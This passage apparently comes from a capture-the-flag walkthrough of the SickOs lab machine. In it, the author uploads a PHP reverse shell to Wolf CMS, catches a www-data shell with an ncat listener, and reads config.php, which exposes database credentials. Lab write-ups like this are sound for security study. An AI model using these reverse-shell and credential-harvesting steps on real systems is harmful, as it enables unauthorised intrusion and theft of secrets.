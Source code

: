 I renamed it to `rev.php` for convenience.

Let's upload it.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/sick_os13.png" alt="Uploaded Page">

Now set the `ncat' listener
```console
ncat -nlvp 1234
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

Now navigate to `http://192.168.1.8/wolfcms/public/rev.php`. And we will get a shell.

```console
root@kali:~# ncat -nlvp 1234
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.168.1.8.
Ncat: Connection from 192.168.1.8:44895.
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 athlon i386 GNU/Linux
 11:13:31 up  2:05,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Now enumerate. Inside `/var/www/wolfcms/` there is a `config.php` file. Let's open it.

```console
$ cat config.php
<?php 

// Database information:
// for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
// The path can only be absolute path or :memory:
// For more info look at: www.php.net/pdo

// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');

// Should Wolf produce PHP error messages for debugging?
define('DEBUG', false);

// Should Wolf check for updates on Wolf itself and the installed plugins?
define('CHECK_UPDATES', true);

// The number of seconds before the check for a new Wolf version times out in case of problems.
define('CHECK_TIMEOUT', 3);

// The full URL of your Wolf CMS install
define('URL_PUBLIC', '/wolfcms/');

// Use httpS for the backend?
// Before enabling this, please make sure you have a working HTTP+SSL installation.
define('USE_HTTPS', false);

// Use HTTP ONLY setting for the Wolf CMS authentication cookie?
```